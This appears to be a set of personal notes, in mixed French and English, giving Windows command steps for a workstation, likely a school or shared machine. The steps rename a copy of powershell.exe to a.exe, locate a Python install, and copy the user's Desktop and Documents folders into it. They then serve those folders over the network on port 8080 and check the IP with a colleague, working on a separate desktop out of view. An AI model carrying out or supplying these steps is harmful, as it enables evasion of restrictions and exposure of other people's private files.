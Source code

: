 1- Ouvrir un cmd : (Il faut faire cela sur un autre bureau Windows Windows + flèche)
```powershell=
Windows + R : cmd
```

1.1- Copie du powershell
```powershell=
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe a.exe
```

2- Find python (A ne pas faire en réel)
```powershell=
Get-ChildItem -Path C:\ -Filter *python.exe* -Recurse -File 2>$null
```

2.1- Get into the directory
```powershell=
cd ../../../EduPython/App
```

2.2- Copy Info from Desktop 
```powershell=
copy %USERPROFILE%\Desktop .

copy %USERPROFILE%\Documents .
```

3- Execute python server
```powershell=
.\python.exe -m http.server 8080 (prendre photo)
```

4- Get the IP from the station
```powershell=
ipconfig (envoyer message check)
```

---

* Il faut faire cela sur un autre bureau Windows 
* Vérifier l'IP de la machine 
* Prendre photos check
* Demandez par message à un collègue si ok

